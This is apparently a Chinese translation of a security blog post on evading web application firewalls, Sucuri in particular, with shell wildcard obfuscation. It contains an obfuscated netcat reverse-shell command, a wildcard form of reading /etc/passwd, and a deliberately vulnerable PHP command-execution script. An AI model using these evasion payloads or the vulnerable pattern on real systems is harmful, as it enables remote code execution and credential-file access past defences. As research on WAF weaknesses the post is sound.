 ```
/???/?c.??????????? -e /???/b??h 2130706433 1337
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f6390a64-b03f-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f6390a64-b03f-1.gif)

下面我们刚刚看到的两个命令的一些摘要：

```
标准：/bin/nc 127.0.0.1 1337 
bypass：/???/n? 2130706433 1337 
使用的字符：/ ? n [0-9]

标准：/bin/cat /etc/passwd
bypass：/???/??t /???/??ss??
使用的字符：/ ? t s

为什么用?而不是*,因为星号（*）被广泛用于注释语法（类似/*嘿，我是注释*/），许多WAF阻止它以避免SQL注入...类似于UNION + SELECT + 1,2,3 /*
```

使用 echo？枚举文件和目录？是的你可以。该 echo 命令可以使用通配符枚举文件系统上的文件和目录。例如`echo /*/*ss*`

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f648a550-b03f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f648a550-b03f-1.png)

这可以在 RCE 上使用，以便在目标系统上获取文件和目录，例如：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f678e76a-b03f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180904204219-f678e76a-b03f-1.png)

但是为什么使用通配符（特别是问号）可以逃避 WAF 规则集？让我先从 Sucuri WAF 开始吧！

Sucuri WAF bypass
-----------------

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180904204220-f6b18a98-b03f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180904204220-f6b18a98-b03f-1.png)

哪种测试 WAF 规则集的最佳方法是什么？创建世界上最易受攻击的 PHP 脚本并尝试所有可能的技术！在上面的屏幕截图中，我们有：在左上方的窗格中有我丑陋的 Web 应用程序（它只是一个执行命令的 PHP 脚本）：

```
<?php
      echo 'ok: ';
      print_r($_GET['c']);
      system($_GET['c']);
```

在左下方的窗格中，您可以在我的网站上看到由 Sucuri WAF（test1.unicresit.it）保护的远程命令执行测试。正如您所看到的，Sucuri 阻止了我的请求，原因是`检测到并阻止了尝试的RFI/LFI`。这个原因并不完全正确，但好消息是 WAF 阻止了我的攻击（我甚至不知道为什么防火墙会告诉我阻止请求的原因，但应该有一个理由......）。

右侧窗格是最有趣的，因为它显示相同的请求，但使用`问号`作为通配符。结果令人恐惧...... Sucuri WAF 接受了请求，我的应用程序执行了我输入 c 参数的命令。现在我可以读取`/etc/passwd`文件甚至更多... 我可以阅读应用程序本身的 PHP 源代码，我可以使用`netcat`（或者我喜欢称之为`/???/?c`）来执行反向 shell ，或者我可以执行类似`curl或wget`按顺序的程序显示 Web 服务器的真实 IP 地址，使我能够通过直接连接到目标来绕过 WAF。

我不知道是否会发生这种情况，因为我在`Sucuri WAF`配置上遗漏了一些内容，但似乎没有... 我已经在 Sucuri 问过这是否是一种有人参与的行为，以及他们是否配置了默认的`低等级`以避免错误，但我还在等待答案。
